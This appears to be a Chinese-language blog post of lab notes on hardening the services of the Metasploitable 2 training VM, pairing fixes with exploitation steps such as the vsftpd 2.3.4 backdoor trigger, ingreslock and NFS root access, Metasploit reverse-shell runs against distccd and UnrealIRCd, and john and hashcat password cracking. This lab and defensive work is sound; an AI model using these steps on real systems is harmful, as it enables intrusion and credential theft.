


# 系统运维从修补到宕机
2019-03-06

参考：

[metasploit table 2 guide](https://metasploit.help.rapid7.com/docs/metasploitable-2-exploitability-guide)

[Google](https://www.google.com)

[Baidu](https://www.baidu.com)

## 目录
* [Linux 服务](#Linux-服务)
  * [openssh-server](#openssh-server)
  * [vsftpd](#vsftpd)
  * [Apache2](#Apache2)
  * [samba](#samba)
  * [rexec rlogin rsh](#rexec-rlogin-rsh)
  * [NFS(Network FIle System)](#nfsnetwork-file-system)
  * [Java RMI Registry](#Java-RMI-Registry)
  * [ingreslock](#ingreslock)
  * [distccd](#distccd)
  * [VNC](#VNC)
  * [UnrealRCD IRC](#UnrealRCD-IRC)
  * [MySQL-server](#MySQL-server)
* [Linux 杂项](#Linux-杂项)
  * [iptables使用](#iptables使用)
  * [进入单用户模式](#进入单用户模式)
  * [PHP](#PHP)
  * [利用john爆破linux系统密码](#利用john爆破linux系统密码)
  * [密码字典](#密码字典)
  * [破解加密的zip文件](#破解加密的zip文件)
  * [密码复杂度设定](#密码复杂度设定)
  * [利用hashcat爆破hash数据摘要](#利用hashcat爆破hash数据摘要)
___

## Linux 服务

### openssh-server
提供ssh服务  
配置文件：
/etc/ssh/sshd_conf  
加固：修改配置文件
```conf
#设定端口，默认端口22
Port 22

#是否允许root用户远程登录
#可选3个值：
#   yes:允许远程登录
#   no:不允许远程登录
#   prohibit-password:禁止使用密码登录
PermitRootLogin no 

#是否允许RSA验证 yes/no
RSAAuthentication yes
PubkeyAuthentication yes

#是否允许使用密码登录 yes/no
PasswordAuthentication no

#是否允许使用空密码登录 yes/no
PermitEmptyPasswords no

#设定使用的syslog设施，日志文件名称在/etc/rsyslog.d/50-default.conf有设定
#(旧版本的rsyslog名称为syslog,配置文件在/etc/syslog.conf)
#auth,authpriv.*                 /var/log/auth.log
SyslogFacility AUTHPRIV

```

### vsftpd
提供ftp服务  

端口：主动模式下数据端口为TCP20，服务端口为TCP21

配置文件：/etc/vsftpd.conf  
加固：修改配置文件， v2.3.4版本还需封堵后门  

```conf
#是否允许匿名登录  YES/NO
anonymous_enable=NO #不允许

#是否允许本地用户登录 YES/NO
local_enable=YES

#是否允许写操作 YES/NO
write_enable=YES

#是否允许匿名用户写入文件 YES/NO
anon_upload_enable=NO

#是否允许匿名用户创建目录 YES/NO
non_mkdir_write_enable=NO

#设定日志位置
xferlog_file=/var/log/vsftpd.log

#设定禁止用户走出自己的根目录
chroot_local_user=YES
chroot_list_enable=NO

#设定使用用户列表，以及指定用户列表位置
#用户列表中存放可登录ftp服务的用户，每个用户用换行符隔开
userlist_enable=YES
userlist_deny=NO  #是否使用黑名单机制 YES/NO
userlist_file=/etc/vsftpd.userlist
```

关于v2.3.4笑脸后门：  
通过使用任意账户名加上:)作为账号登录，密码任意，vsftpd会在6200TCP端口上映射一个shell  
封堵方法有两个，一个是通过使用用户列表，使用用户列表白名单后后门不会被触发，另一个是通过iptables规则禁止后门连接

```
220 (vsFTPd 2.3.4)
Name (192.168.247.250:leaf): niconiconi:)
331 Please specify the password.
Password:

>此时ftp会话已经关闭，目标主机开放了TCP 6200端口, 可使用telnet连接

$ telnet 192.168.247.250 6200

封堵：
iptables -I OUTPUT -p TCP --source-port 6200 -s 0.0.0.0/0 -j DROP
```

附关于FTP客户端的命令

| 命令   | 参数                                | 备注                                                         |
| ------ | ----------------------------------- | ------------------------------------------------------------ |
| open   | 主机名/IP地址                       | 与host建立连接                                               |
| user   | 用户名                              | 进行登录                                                     |
| get    | 文件名[, 本机目录]                  | 下载文件，默认下载到连接时处于的目录                         |
| put    | 本机文件路径，[目标主机路径/文件名] | 上传文件，如果不指定目标路径，则会根据本机文件路径上传至目标主机对应路径 |
| delete | 文件名                              | 删除文件                                                     |
| ?      | 无                                  | 查看能使用的命令                                             |

### Apache2

提供web服务

端口：TCP 80

主配置文件：Debian: /etc/apache2/apache2.conf

​			Red Hat: /etc/httpd/conf/httpd.conf

加固：

```
禁止遍历目录,禁止文件执行，禁止重载配置
<Directory 目录（不要有/结尾）>
	AllowOverride None
	Options -Indexes
	<FilesMatch ".">
		SetHandler None
	</FilesMatch>
</Directory>

指定Access文件名称
AccessFileName .htaccess

设定错误文档
ErrorDocument 404 /404.html  #文档位置的根目录是网站的根目录
ErrorDocument 403 /404.html

不在HTTP Response的Server字段中显示服务器信息
ServerTokens Prod

不在错误文档中显示服务器信息
ServerSignature off

```


###  samba

提供跨平台文件共享服务

端口：TCP139 445

配置文件：/etc/samba/smb.comf

利用：

**枚举用户**



**枚举共享**


**目录穿越**


加固：修改配置文件

```conf
[global]
	security = user
	restrict anonymous = 2 #禁用匿名用户，防止信息泄露
	
其他的一些可选配置
[共享名称]
	guest ok = yes/no #是否允许匿名账户访问本共享
	security = user/share #基于samba账号验证还是不需要账号验证
	path = 此共享的共享目录绝对路径
	read only = yes/no #是否只读
	writable = yes/no #是否可写
	public = yes/no #是否公开此共享
	hosts allow = 10.0.0. 127.0.0.1 #允许连接的客户端ip
	hosts deny = 0.0.0.0/0 #不允许连接的客户端IP
	
重启服务
/etc/init.d/samba restart
```


### rexec rlogin rsh

提供远程登录服务

端口： TCP512 513 514

日志文件：/var/log/auth.log

各用户的配置文件：~/.rhost

全局配置文件：/etc/hosts.equiv

配置文件的优先级为：用户目录的rhosts文件 > 全局文件

配置文件语法：

```
+ + #允许任意主机使用空密码登录任意账户
- - #不允许任意主机使用空密码登录任意账户
允许登录的主机 允许登录的用户

```

连接方法：

```
usage: rlogin [-8ELKd] [-e char] [-i user] [-l user] [-p port] host
$ rlogin -l 用户名 主机名
$ rsh -l 用户名 主机名
rexec暂未找到
#如果提示需要验证sshkey则说明系统需要安装rsh-client,刚刚使用的是openssh-clinet
$ sudo apt-get install rsh-client
```

加固：三个服务使用同一个账户配置文件，可能因配置不当导致空密码登录

```
/etc/hosts.equiv
- -

/home/$USER/.rhosts
- -
```

### NFS(Network File System)

提供远程访问文件系统服务

端口：

```
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100003  2,3,4       2049/tcp  nfs
|   100003  2,3,4       2049/udp  nfs
|   100005  1,2,3      33447/udp  mountd
|   100005  1,2,3      40094/tcp  mountd
|   100021  1,3,4      42007/udp  nlockmgr
|   100021  1,3,4      47973/tcp  nlockmgr
|   100024  1          35568/udp  status
|_  100024  1          52080/tcp  status
```

配置文件：/etc/exports

加固：配置不当会导致任意人拥有文件读写权限

```
metasploittable2 漏洞利用
kali: 
$ sudo apt-get install rpcbind
$ sudo apt-get install nfs-common

查看对方主机nfs服务开启情况
$ rpcinfo -p 主机IP
   program vers proto   port  service
    100000    2   tcp    111  portmapper
    100000    2   udp    111  portmapper
    100024    1   udp  47150  status
    100024    1   tcp  56260  status
    100003    2   udp   2049  nfs
    100003    3   udp   2049  nfs
    100003    4   udp   2049  nfs
    100021    1   udp  55596  nlockmgr
    100021    3   udp  55596  nlockmgr
    100021    4   udp  55596  nlockmgr
    100003    2   tcp   2049  nfs
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100021    1   tcp  47481  nlockmgr
    100021    3   tcp  47481  nlockmgr
    100021    4   tcp  47481  nlockmgr
    100005    1   udp  34429  mountd
    100005    1   tcp  47216  mountd
    100005    2   udp  34429  mountd
    100005    2   tcp  47216  mountd
    100005    3   udp  34429  mountd
    100005    3   tcp  47216  mountd

查看对方主机导出的目录
$ showmount -e 主机IP
Export list for 192.168.247.250:
/ *

将对方主机的根目录挂载到本地
# mkdir /mnt/target
# mount -t nfs 192.168.247.250:/ /mnt/target
```

修补：

```conf
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync) hostname2(ro,sync)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt)
# /srv/nfs4/homes  gss/krb5i(rw,sync)
#

#metasploittable2中该行配置导致任何人拥有读写权限，注释掉
#/       *(rw,sync,no_root_squash,no_subtree_check)

重启服务
# /etc/init.d/nfs-kernel-server restart
```

### Java RMI Registry

默认配置存在远程代码执行漏洞

端口：1099

利用：

```
msf5 > use exploit/multi/misc/java_rmi_server

```


### ingreslock

后门程序，提供远程root shell连接

端口：1524

利用：

```
$ telnet 192.168.247.250 1524
Trying 192.168.247.250...
Connected to 192.168.247.250.
Escape character is '^]'.
root@metasploitable:/# whoami
root
```

加固：

```
封堵端口
iptables -I INPUT -p TCP --destination-port 1524
```

### distccd

后门程序，提供远程命令执行

端口：3632

利用：

```
msf5 exploit(unix/misc/distcc_exec) > exploit 

[*] Started reverse TCP double handler on 192.168.247.1:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 1Og0JD4yJXeNmyX6;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "1Og0JD4yJXeNmyX6\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (192.168.247.1:4444 -> 192.168.247.250:44246) at 2019-03-07 15:29:09 +0800
```

加固：

```
封堵端口
# iptables -I INPUT -p TCP --destination-port 3632 -j DROP
```

### VNC

提供远程桌面服务

配置文件位置：~/.vnc/xstartup

密码文件：~/.vnc/passwd

mst2利用：

```
use auxiliary/scanner/vnc/vnc_login 

$ vncviewer host
```

加固：

```
修改各用户的密码
会提示是否设置一个只读界面的密码，选n
#/$ vncpasswd
```


### UnreaIRCD IRC

v3.2.8.1 存在后门，提供root shell连接

```
exploit/unix/irc/unreal_ircd_3281_backdoor UnrealIRCD 3.2.8.1 Backdoor Command Execution
```

端口：6667

利用：

```
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit 

[*] Started reverse TCP double handler on 192.168.247.1:4444 
[*] 192.168.247.250:6667 - Connected to 192.168.247.250:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
[*] 192.168.247.250:6667 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 1lgzlRUNckIyjS2i;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "1lgzlRUNckIyjS2i\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.247.1:4444 -> 192.168.247.250:50365) at 2019-03-07 14:44:39 +0800

whoami
root
```

加固：

```
封堵端口
# iptables -I INPUT -p TCP --destination-port 6667 -j DROP
```


### MySQL-server

提供数据库服务

端口：3306

加固：

```
查看数据库中已有的用户，以及能登录该账号的主机，密码
MySQL [(none)]> select host,user,password from mysql.user;
+------+------------------+----------+
| host | user             | password |
+------+------------------+----------+
|      | debian-sys-maint |          |
| %    | root             |          |
| %    | guest            |          |
+------+------------------+----------+
%表示模糊匹配，此处意思是允许任何主机登录该用户

更新用户密码
MySQL [(none)]> update mysql.user set password=PASSWORD("niconiconi_love_live"),host="127.0.0.1" ;
Query OK, 3 rows affected (0.00 sec)
Rows matched: 3  Changed: 3  Warnings: 0

MySQL [(none)]> select host,user,password from mysql.user;
+-----------+------------------+-------------------------------------------+
| host      | user             | password                                  |
+-----------+------------------+-------------------------------------------+
| 127.0.0.1 | debian-sys-maint | *7E6FFA0D2E799C6E6333F0C24429F0F8E09CF304 |
| 127.0.0.1 | root             | *7E6FFA0D2E799C6E6333F0C24429F0F8E09CF304 |
| 127.0.0.1 | guest            | *7E6FFA0D2E799C6E6333F0C24429F0F8E09CF304 |
+-----------+------------------+-------------------------------------------+

```

远程连接：

```
$ mysql -h 主机 -u 用户名 [-p]
-p选项可选，不加-p代表空密码登录。加-p代表使用密码登录，回车后输入密码
```


## Linux 杂项

### iptables使用



```
禁止meterpreter连接（原理是meterpreter的reverse shell默认监听端口是4444）
换了LPORT就没用了...
# iptables -I INPUT -p TCP --source-port 4444 -j DROP
```

### 进入单用户模式

grab1

```
在kernel引导脚本的最后加入single, 按回车保存
后续可能需要手动挂载根目录
```

grab2

```
查找以下配置
linux /boot/vmlinuz-3.2.0-24-generic root=UUID=bc6f8146-1523-46a6-8b\
6a-64b819ccf2b7 ro  quiet splash
initrd /boot/initrd.img-3.2.0-24-generic

在linux开头的一行，ro改为rw init=/bin/bash，如果有rhgb quite的话删除, 按ctrl+x进行引导

重启：exec /sbin/init
centos7在单用户模式修改密码后无法在图形界面处登录，原因未知....

```

### PHP

配置文件:/etc/php/php版本/apache2/php.ini

加固：

```
禁止打开远程文件
allow_url_fopen = Off  
allow_url_include = Off 

指定文件打开的根目录
base_url = /var/www/html

注意源代码里面的一些危险函数....
```

### 利用john爆破linux系统密码

```
john 参数 -w:字典 使用字典爆破，默认使用passwd.lst 
		 -single 根据用户名进行测试 
		 -increment:模式  增强模式，模式可以选ALL（0到8个字符长的所有字符组合）、Alpha（1到8个字符长的所有字母组合）、Digits（1到8个字符长的所有数字组合）、Alnum（1到8个字符长的所有字母/数字组合） 

john -show 输出文件    查看破解出的密码 
```

```
首先需要一份passwd文件以及与之匹配的shadow文件
$ unshadow passwd shadow > userfile
Created directory: /home/leaf/.john

$ john -single userfile
...
user             (user)
postgres         (postgres)
msfadmin         (msfadmin)
service          (service)
...
$ john -increment userfile
...
batman           (sys)
hello            (ftponly)
```


### 密码字典

```
kali系统下的密码字典  
/usr/share/wordlist/下 
rockyou.txt.gz,解压使用gunzip命令 
nmap.lst 

back track5下的密码字典 
find / -name wordlist 
find / -name rockyou* 
/pentest/password/wordlist/ 
```

### 破解加密的zip文件 

```
fcrackzip 参数  
	-b 暴力枚举 
	-D -p 字典路径 使用字典 
	-u 使用unzip 
	-c 指定使用的暴力破解字符 
```


### 密码复杂度设定

/etc/login.defs

```
#PASS_MIN_LEN
#PASS_MAX_LEN
```

/etc/pam.d/common-password

```
password required pam_cracklib.so retry=3 minlen=6 difok=3 
其中 
       retry=密码可以重输的次数 
       minlen=密码最短的长度 
       difok=允许新旧密码相同字符的个数，默认为10 
```


### 利用hashcat爆破hash数据摘要

#### 爆破sha1数据摘要

```shell
$ cat hashes.txt #hashlib.sha1("p@ssword".encode("ascii")).hexdigest()
36e618512a68721f032470bb0891adef3362cfa9
```

```powershell
PS> hashcat -m 100 hashes.txt .\wordlist\rockyou.txt
Dictionary cache hit:
* Filename..: .\wordlist\rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

36e618512a68721f032470bb0891adef3362cfa9:p@ssword

Session..........: hashcat
Status...........: Cracked
Hash.Type........: SHA1
Hash.Target......: 36e618512a68721f032470bb0891adef3362cfa9
Time.Started.....: Tue Apr 30 08:59:37 2019 (0 secs)
Time.Estimated...: Tue Apr 30 08:59:37 2019 (0 secs)
Guess.Base.......: File (.\wordlist\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#3.........: 22391.5 kH/s (1.95ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 393216/14344385 (2.74%)
Rejected.........: 0/393216 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#3...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#3....: 123456 -> remmers
Hardware.Mon.#3..: Temp: 38c Util: 23% Core:1607MHz Mem:3504MHz Bus:8
```

#### 爆破md5数据摘要

```shell
$ cat hashes.txt #hashlib.md5("lovelive".encode("ascii")).hexdigest()
73c329cc190a031bf64c85c580360e4c
```

```powershell
PS> hashcat -m 0 hashes.txt .\wordlist\rockyou.txt
Dictionary cache hit:
* Filename..: .\wordlist\rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

73c329cc190a031bf64c85c580360e4c:lovelive

Session..........: hashcat
Status...........: Cracked
Hash.Type........: MD5
Hash.Target......: 73c329cc190a031bf64c85c580360e4c
Time.Started.....: Tue Apr 30 09:03:05 2019 (1 sec)
Time.Estimated...: Tue Apr 30 09:03:06 2019 (0 secs)
Guess.Base.......: File (.\wordlist\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#3.........: 22099.4 kH/s (2.14ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 393216/14344385 (2.74%)
Rejected.........: 0/393216 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#3...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#3....: 123456 -> remmers
Hardware.Mon.#3..: Temp: 37c Util:  6% Core:1645MHz Mem:3504MHz Bus:8
```

